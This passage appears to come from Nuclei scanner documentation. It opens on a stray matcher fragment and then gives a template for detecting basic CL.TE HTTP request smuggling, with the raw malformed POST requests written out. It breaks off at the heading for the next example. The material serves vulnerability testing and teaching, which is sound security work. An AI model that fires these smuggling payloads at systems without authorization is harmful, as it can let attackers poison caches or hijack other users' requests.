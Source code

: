 ````markdown
    matchers:
      - type: status
        status:
          - 200
```
````

### `protocols\http\http-smuggling-examples.md`

````markdown
---
title: "HTTP Smuggling Examples"
description: "Review some HTTP smuggling examples"
---

## Basic CL.TE

This template makes a defined malformed HTTP POST requests using rawhttp library and checking for string match against response.

```yaml
id: CL-TE-http-smuggling

info:
  name: HTTP request smuggling, basic CL.TE vulnerability
  author: pdteam
  severity: info
  reference: https://portswigger.net/web-security/request-smuggling/lab-basic-cl-te

http:
  - raw:
    - |+
      POST / HTTP/1.1
      Host: {{Hostname}}
      Connection: keep-alive
      Content-Type: application/x-www-form-urlencoded
      Content-Length: 6
      Transfer-Encoding: chunked

      0

      G
    - |+
      POST / HTTP/1.1
      Host: {{Hostname}}
      Connection: keep-alive
      Content-Type: application/x-www-form-urlencoded
      Content-Length: 6
      Transfer-Encoding: chunked

      0

      G

    unsafe: true
    matchers:
      - type: dsl
        dsl:
          - 'contains(body, "Unrecognized method GPOST")'
```

## Basic TE.CL

````